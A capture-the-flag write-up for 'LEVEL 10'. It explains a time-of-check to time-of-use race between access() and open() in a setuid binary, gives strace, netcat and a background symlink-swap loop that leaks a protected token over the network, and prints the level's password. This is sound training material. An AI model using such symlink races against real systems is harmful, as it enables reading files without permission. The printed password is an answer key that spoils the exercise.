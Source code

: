 # LEVEL 10

## 💡 Explanation

In this level we have to:
1. Check the permissions of ./level10 and token
2. Execute `./level10`to check what it does => It ask for a file and a file and a host; when providing the file token it complains because we don't have rights, it works when providing another file.
3. To be able to send the file to a host, we'll have to have a host listening => we can just listen on the port 6969 on the same machine and wait for it to receive the file.
4.  Now we have to find out how to send the file token... We check how the binary works by using strace and testing with different files => We can see that it first check the rights of the files using the function `access()` and then it `open()` the file which can lead to a security issue.
5. We have to exploit this security hole by creating a symbolic link from one file to another, so when access checks the permissions it won't have any problem (since it will be pointing to another file) and then it will open the corret one.
6. Once you get the flag, `su flag10` and `getflag`!

HARDEST LEVEL SO FAR!! 🔥🔥

## 👾 Commands

To find the solution:
```
./level10
./level10 token lol
ln -s /home/user/level10/token /tmp/lol; ./level10 /tmp/lol lol
rm /tmp/lol; echo "lol" > /tmp/lol; ./level10 /tmp/lol lol
nc 6969 -l => Run it every time we launch level10 (on a different terminal)
rm /tmp/lol; echo "lol" > /tmp/lol; strace ./level10 /tmp/lol 192.168.56.3
```

To exploit the security hole:
- Running in the background     : `echo "lal" > /tmp/lal; (while true; do ln -fs /tmp/lal /tmp/lol && ln -fs /home/user/level10/token /tmp/lol; done)&`
- Running in a terminal         : `nc 6969 -l`
- Running in another terminal   : `./level10 /tmp/lol 192.168.56.3`
- Run it several times if needed! Do not forget to kill the process once you get the flag `kill -9 <pid>`!

## 🔍 Resources

- [How to open a TCP listener?](https://unix.stackexchange.com/questions/214471/how-to-create-a-tcp-listener)
- [Linux access command](https://man7.org/linux/man-pages/man2/access.2.html)
- [Linux open command](https://linux.die.net/man/3/open)
- [Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
- [How to exploit the access security hole? I](https://stackoverflow.com/questions/14333112/access2-system-call-security-issue)
- [How to exploit the access security hole? II](https://stackoverflow.com/questions/11525164/what-is-wrong-with-access)
- [How to exploit the access security hole? III](https://stackoverflow.com/questions/7925177/access-security-hole)
- [Linux ln command](https://man7.org/linux/man-pages/man1/ln.1.html)
- [How to kill a process?](https://itsfoss.com/how-to-find-the-process-id-of-a-program-and-kill-it-quick-tip/)

## 🔥 Password
`woupa2yuojeeaaed06riuj63c`
